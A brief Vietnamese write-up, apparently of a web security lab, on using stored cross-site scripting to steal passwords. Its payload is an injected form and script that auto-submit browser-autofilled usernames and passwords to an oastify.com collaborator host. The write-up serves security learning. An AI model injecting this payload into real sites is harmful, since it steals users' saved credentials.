

## Exploiting cross-site scripting to capture passwords

1. Khi thử comment với payload `<script>alert(1)</script>` nhận thấy trang web reflect y nguyên input. 

2. Tận dụng các trình autofill mật khẩu đã lưu của trình duyệt tạo form tự động điền các giá trị user|pw cùng với csrf token rồi gửi tới trang web mình kiểm soát để lấy mật khẩu của victim

- Payload:

```
<form action="https://ap3ib11c8lbvcyz4y3ondbwlscy2mr.oastify.com" id="xss-form">
    <input name=password type=password value="password">
    <input name=username type=text value="username">
</form>
<script>
    setTimeout(function(){document.getElementById("xss-form").submit()}, 3000);
</script>
```

-> Gửi kèm 2 param chứa thông tin đăng nhập tới burp collaborator

3. Check interaction nhận được http request chứa thông tin đăng nhập 

